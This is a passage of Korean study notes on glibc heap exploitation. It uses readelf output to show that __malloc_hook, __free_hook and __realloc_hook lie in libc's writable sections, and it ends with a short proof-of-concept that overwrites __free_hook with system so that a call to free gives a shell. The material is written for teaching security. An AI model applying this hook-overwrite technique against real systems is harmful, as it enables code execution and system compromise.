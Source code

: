 ```c
}
```

### 훅의 위치와 권한

- `__malloc_hook` , `__free_hook`, `__realloc_hook` 은 관련된 함수들과 마찬가지로 [`libc.so`](http://libc.so) 에 정의 되어 있음
    - `__malloc_hook` , `__free_hook` , `__realloac_hook`

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep -E "__malloc_hook|__free_hook|__realloc_hook"
   221: 00000000003ed8e8     8 OBJECT  WEAK   DEFAULT   35 __free_hook@@GLIBC_2.2.5
  1132: 00000000003ebc30     8 OBJECT  WEAK   DEFAULT   34 __malloc_hook@@GLIBC_2.2.5
  1544: 00000000003ebc28     8 OBJECT  WEAK   DEFAULT   34 __realloc_hook@@GLIBC_2.2.5
```

- 해당 변수들의 오프셋은 각각 `0x3ed8e8` , `0x3ebc30` , `0x3ebc28` 인데, 섹션 헤더 정보를 참조하면 [`libc.so`](http://libc.so) 의 `bss` 및 `data` 섹션에 포함됨을 알 수 있음
    - `bss` 및 `data` 섹션은 쓰기가 가능하므로 이 변수들의 값은 조작될 수 있음
    - hook의 섹션
    
    ```bash
    $ readelf -S /lib/x86_64-linux-gnu/libc-2.27.so | grep -EA 1 "\.bss|\.data"
    <-- skipped -->
      [34] .data             PROGBITS         00000000003eb1a0  001eb1a0
           00000000000016c0  0000000000000000  WA       0     0     32
      [35] .bss              NOBITS           00000000003ec860  001ec860
           0000000000004280  0000000000000000  WA       0     0     32
    ```
    

### Hook Overwrite

- 앞서 설명한 바와 같이 `__free_hook`은 `libc` 의 `bss` 섹션에 `__malloc_hook` 과 `__realloc_hook`은 `data` 섹션에 위치하여 실행 중에 덮어쓰는 것이 가능, 또한, 훅을 실행할 때 기존 함수에 전달한 인자를 같이 전달해 주기 때문에 `__malloc_hook` 을 `system` 함수의 주소로 덮고, `malloc("/bin/sh")` 을 호출하여 셸을 획득하는 등의 공격이 가능
- 하단의 코드는 훅을 덮는 공격이 가능함을 보이는 Proof-of-Concept(PoC)코드
- 컴파일하고 실행하면, `__free_hook` 을 `system` 함수로 덮고, `free("/bin/sh")` 를 호출하자 셸이 획득되는 것을 확인할 수 있음

```bash
// Name: fho-poc.c
// Compile: gcc -o fho-poc fho-poc.c

#include <malloc.h>
#include <stdlib.h>
#include <string.h>

const char *buf="/bin/sh";

int main() {
  printf("\"__free_hook\" now points at \"system\"\n");
  __free_hook = (void *)system;
  printf("call free(\"/bin/sh\")\n");
  free(buf);
}

```
